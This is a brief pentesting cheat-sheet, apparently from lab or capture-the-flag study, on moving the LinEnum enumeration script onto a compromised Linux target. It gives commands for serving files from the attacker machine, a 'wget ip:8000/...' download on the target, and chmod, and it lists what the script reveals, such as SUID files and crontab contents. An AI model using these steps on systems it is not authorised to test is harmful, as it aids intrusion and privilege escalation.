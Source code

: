 					Option 1
-- Attacker:
	-- python3 -m http.server 8000			starts webserver for listening

-- Target:
	-- wget ip:8000/documents/LinEnum.sh	download file on target
	-- chmod +x LinEnum.sh 					makes file executable

					Option 2(less privileges)
-- Attacker:
	--Copy LinEnum code to Target		      (.sh Extension)
	--chmod +x LinEnum.sh				   makes file executable

					LineEnum Output
-- kernal information
-- read/write files
-- suid files
-- crontab contents
